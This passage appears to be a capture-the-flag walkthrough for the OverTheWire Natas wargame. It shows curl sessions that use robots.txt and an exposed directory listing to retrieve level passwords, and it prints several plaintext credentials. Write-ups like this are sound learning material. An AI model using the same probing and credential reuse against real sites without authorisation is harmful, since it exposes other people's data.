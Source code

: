 ```
abs@MacBookPro ~ % curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI 
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```


# Level 2 -> 3:
```
abs@MacBookPro ~ % curl http://natas3.natas.labs.overthewire.org -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH -s            
...
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```

```
abs@MacBookPro ~ % curl http://natas3.natas.labs.overthewire.org/robots.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH -s 
User-agent: *
Disallow: /s3cr3t/
```

```
abs@MacBookPro ~ % curl http://natas3.natas.labs.overthewire.org/s3cr3t/ -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH -s 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /s3cr3t</title>
 </head>
 <body>
<h1>Index of /s3cr3t</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-08-15 13:06  </td><td align="right"> 40 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.58 (Ubuntu) Server at natas3.natas.labs.overthewire.org Port 80</address>
</body></html>
```
```
abs@MacBookPro ~ % curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH -s  
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
